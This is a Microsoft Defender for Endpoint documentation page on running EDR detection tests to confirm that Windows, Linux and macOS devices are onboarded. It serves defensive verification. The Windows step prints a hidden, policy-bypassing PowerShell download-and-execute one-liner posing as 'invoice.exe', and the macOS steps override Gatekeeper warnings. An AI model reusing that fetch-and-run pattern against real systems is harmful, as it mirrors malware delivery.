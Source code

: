 ```yaml
---
title: EDR detection test for verifying device's onboarding and reporting service
description: EDR detection test to verify the device's proper onboarding and reporting to the service.
ms.service: microsoft-365-security
ms.author: siosulli
author: siosulli
ms.localizationpriority: medium
manager: deniseb
audience: ITPro
ms.collection: 
- m365-security
- tier3
- mde-macos
ms.custom: admindeeplinkDEFENDER
ms.topic: conceptual
ms.subservice: mde
search.appverid: met150
ms.date: 01/15/2024
---
```


# EDR detection test for verifying device's onboarding and reporting services

#### Applies to:

- [Microsoft Defender for Endpoint Plan 2](https://go.microsoft.com/fwlink/p/?linkid=2154037)
- [Microsoft Defender for Business](https://www.microsoft.com/security/business/endpoint-security/microsoft-defender-business)

## Scenario requirements and setup

- Windows 11, Windows 10 version 1709 build 16273 or newer, Windows 8.1, or Windows 7 SP1.
- Windows Server 2022, Windows Server 2019, Windows Server 2016, Windows Server 2012 R2, and Windows Server 2008 R2 SP1.
- Linux
- macOS
- Microsoft Defender for Endpoint
- Microsoft Defender for Endpoint on Linux
- Microsoft Defender for Endpoint on macOS

Endpoint detection and response for Endpoint provide advanced attack detections that are near real-time and actionable. Security analysts can prioritize alerts effectively, gain visibility into the full scope of a breach, and take response actions to remediate threats.

Run an EDR detection test to verify that the device is properly onboarded and reporting to the service. Perform the following steps on the newly onboarded device:

### Windows

1. Open a Command Prompt window

2. At the prompt, copy and run the command below. The Command Prompt window will close automatically.


```powershell
powershell.exe -NoExit -ExecutionPolicy Bypass -WindowStyle Hidden $ErrorActionPreference= 'silentlycontinue';(New-Object System.Net.WebClient).DownloadFile('http://127.0.0.1/1.exe', 'C:\\test-WDATP-test\\invoice.exe');Start-Process 'C:\\test-WDATP-test\\invoice.exe'
```

3. If successful, the detection test will be marked as completed and a new alert will appear in few minutes.

### Linux

1. Download [script file](https://aka.ms/LinuxDIY) to an onboarded Linux server 


```bash
curl -o ~/Downloads/MDE Linux DIY.zip https://aka.ms/LinuxDIY
```

1. Extract the zip 

```bash
unzip ~/Downloads/MDE Linux DIY.zip
```

1. And run the following command: 

```bash
./mde_linux_edr_diy.sh
```

After a few minutes, a detection should be raised in Microsoft Defender XDR.

3. Look at the alert details, machine timeline, and perform your typical investigation steps.

### macOS

1. In your browser, Microsoft Edge for Mac or Safari, download *MDATP MacOS DIY.zip* from [https://aka.ms/mdatpmacosdiy](https://aka.ms/mdatpmacosdiy) and extract.

      The following prompt appears:

      > Do you want to allow downloads on "mdatpclientanalyzer.blob.core.windows.net"?<br/>
      > You can change which websites can download files in **Websites Preferences**.

4. Click **Allow**.

5. Open **Downloads**.

6. You must be able to see **MDATP MacOS DIY**.

   > [!TIP]
   > If you double-click **MDATP MacOS DIY**, you will get the following message:
   >
   > > **"MDATP MacOS DIY" cannot be opened because the developer cannot be verifier.**<br/>
   > > macOS cannot verify that this app is free from malware.<br/>
   > > **[Move to Trash]** **[Cancel]**

7. Click **Cancel**.

8. Right-click **MDATP MacOS DIY**, and then click **Open**.

    The system displays the following message:

    > **macOS cannot verify the developer of MDATP MacOS DIY. Are you sure you want to open it?**<br/>
    > By opening this app, you will be overriding system security which can expose your computer and personal information to malware that may harm your Mac or compromise your privacy.

9. Click **Open**.

    The system will display the following message:

    > Microsoft Defender for Endpoint - macOS EDR DIY test file<br/>
    > Corresponding alert will be available in the MDATP portal.

10. Click **Open**.

    In few minutes, an alert *macOS EDR Test Alert* is raised.

11. Go to Microsoft Defender portal (https://security.microsoft.com/).

12. Go to the **Alert** Queue.

    :::image type="content" source="media/b8db76c2-c368-49ad-970f-dcb87534d9be.png" alt-text="Screenshot that shows a macOS EDR test alert that shows severity, category, detection source, and a collapsed menu of actions":::

    The macOS EDR test alert shows severity, category, detection source, and a collapsed menu of actions.

    Look at the alert details and the device timeline, and perform the regular investigation steps.

 Next steps that you can consider performing are to add AV exclusions as needed for application compatibility or performance:

- [Configure and validate exclusions for Microsoft Defender for Endpoint on macOS](mac-exclusions.md)
- [Address false positives/negatives in Microsoft Defender for Endpoint](defender-endpoint-false-positives-negatives.md)
- [Manage suppression rules](manage-suppression-rules.md)
- [Create indicators of compromise (IoC)](manage-indicators.md)
- [Create and manage custom detections rules](../defender/custom-detection-rules.md)

Read through [Microsoft Defender for Endpoint Security Operations Guide](mde-sec-ops-guide.md).
